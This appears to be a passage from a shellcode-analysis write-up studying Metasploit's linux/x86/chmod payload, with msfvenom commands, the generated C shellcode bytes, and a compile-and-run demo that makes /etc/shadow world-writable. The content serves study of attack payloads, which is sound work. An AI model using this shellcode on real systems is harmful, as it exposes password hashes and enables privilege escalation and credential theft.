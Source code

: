 Shellcode II
------------
The second shellcode we’re going to look at is `chmod`, the following are the options that needs to be feed into the payload.

```sh
root@ubuntu:~# msfvenom -p linux/x86/chmod --payload-options
Options for payload/linux/x86/chmod:


       Name: Linux Chmod
     Module: payload/linux/x86/chmod
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode
```

Generating shellcode using default options.

```sh
root@ubuntu:~# msfvenom -p linux/x86/chmod -f c -v shellcode
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes
Final size of c file: 183 bytes
unsigned char shellcode[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
"\x80\x6a\x01\x58\xcd\x80";
root@ubuntu:~#
```

Compile and test.

```sh
root@ubuntu:~# ls -la /etc/shadow
-rw------- 1 root shadow 1317 Jan 23 09:47 /etc/shadow
root@ubuntu:~# gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
root@ubuntu:~# ./shellcode 
root@ubuntu:~# ls -la /etc/shadow
-rw-rw-rw- 1 root shadow 1317 Jan 23 09:47 /etc/shadow
root@ubuntu:~#
```
